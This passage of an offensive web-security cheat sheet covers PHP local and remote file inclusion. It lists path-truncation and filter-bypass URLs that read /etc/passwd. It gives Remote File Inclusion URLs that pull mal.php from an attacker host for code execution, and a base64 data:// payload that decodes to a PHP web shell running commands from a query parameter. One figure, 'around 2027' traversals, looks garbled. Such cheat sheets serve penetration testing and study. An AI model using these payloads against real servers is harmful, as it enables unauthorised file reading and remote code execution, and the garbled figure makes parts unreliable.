 ```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

In these scenarios, the number of traversals needed might be around 2027, but this number can vary based on the server's configuration.

* **Using Dot Segments and Additional Characters**: Traversal sequences (`../`) combined with extra dot segments and characters can be used to navigate the file system, effectively ignoring appended strings by the server.
* **Determining the Required Number of Traversals**: Through trial and error, one can find the precise number of `../` sequences needed to navigate to the root directory and then to `/etc/passwd`, ensuring that any appended strings (like `.php`) are neutralized but the desired path (`/etc/passwd`) remains intact.
* **Starting with a Fake Directory**: It's a common practice to begin the path with a non-existent directory (like `a/`). This technique is used as a precautionary measure or to fulfill the requirements of the server's path parsing logic.

When employing path truncation techniques, it's crucial to understand the server's path parsing behavior and filesystem structure. Each scenario might require a different approach, and testing is often necessary to find the most effective method.

**This vulnerability was corrected in PHP 5.3.**

### **Filter bypass tricks**

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

## Remote File Inclusion

In php this is disable by default because **`allow_url_include`** is **Off.** It must be **On** for it to work, and in that case you could include a PHP file from your server and get RCE:

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

If for some reason **`allow_url_include`** is **On**, but PHP is **filtering** access to external webpages, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), you could use for example the data protocol with base64 to decode a b64 PHP code and egt RCE:

{% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}
